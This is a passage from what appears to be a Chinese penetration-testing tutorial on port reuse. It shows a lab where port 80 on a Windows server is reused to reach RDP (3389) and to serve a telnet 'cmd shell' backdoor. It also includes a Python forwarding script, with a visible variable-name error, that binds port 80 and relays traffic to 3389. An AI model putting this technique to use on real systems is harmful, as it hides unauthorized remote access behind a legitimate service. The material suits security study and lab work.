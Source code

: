 
接着win2008服务器192.168.19.130打开远程桌面连接器连接192.168.1.8的80端口

 

 

可以看到，我们成功的连接到了192.168.1.8的3389端口

(二)复用端口

使用条件：

原先存在80端口，并且监听80端口，需要复用80端口为23(其他任意)端口

准备环境：

这里我用jspstudy搭建一个网页服务器，用虚拟机模拟外部环境

Windows7服务器：IP：192.168.1.8，开放80端口
Win2008虚拟机：IP：192.168.19.130
这里的端口复用是模拟一个cmd后门，当外部IP：192.168.19.130 telnet本地IP：192.168.1.8时，反弹一个cmsdshell过去。

启动端口复用工具，telnet连接192.168.1.8的80端口

 

 

可以看到我们成功得到了一个cmd shell的会话。

好了，具体的理论和坑点和实战我们都做了，那么下面开始我们的源码分析。

0x04 端口复用源码分析

(一)：复用端口重定向

目的：原先存在80端口，并且监听80端口，22，23，3389等端口复用80端口

复用端口重定向的实现

(1)外部IP连本地IP : 192.168.2.1=>192.168.1.1:80=>127.0.0.1:3389
(2)本地IP转外部IP : 127.0.0.1:3389=>192.168.1.1:80=>192.168.2.1
首先外部 IP(192.168.2.1) 连接本地 IP(192.168.1.1) 的 80 端口,由于本地 IP(192.168.1.1) 端口复用绑定了 80 端口，所以复用绑定端口监听到了外部 IP(192.168.2.1) 地址流量，判断是否为HTTP流量，如果是则发送回本地 80 端口，否则本地 IP(192.168.1.1) 地址连接本地 ip(127.0.0.1) 的 3389 端口，从本地 IP(127.0.0.1) 端口 3389 获取到的流量由本地 IP(192.168.1.1) 地址发送到外部 IP(192.168.2.1) 地址上，这个过程就完成了整个端口复用重定向。

我们用python代码解释，如下:

复制代码
#coding=utf-8 
 
import socket 
import sys 
import select 
 
host='192.168.1.8' 
port=80 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
s.setsockopt( socket.SOL_SOCKET, socket.SO_REUSEADDR, 1 )  
s.bind((host,port)) 
s.listen(10) 
 
S1=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 
S1.connect(('127.0.0.1',3389)) 
print "Start Listen 80 =>3389....." 
while 1: 
    infds,outfds,errfds=select.select([s,],[],[],5) #转发3389需去除 
    if len(infds)!=0:#转发3389需去除 
        conn,(addr,port)=s.accept() 
        print '[*] connected from ',addr,port 
        data=conn.recv(4096) 
        S1.send(data) 
        recv_data=s1.recv(4096) 
        conn.send(recv_data) 
print '[-] connected down', 
S1.close() 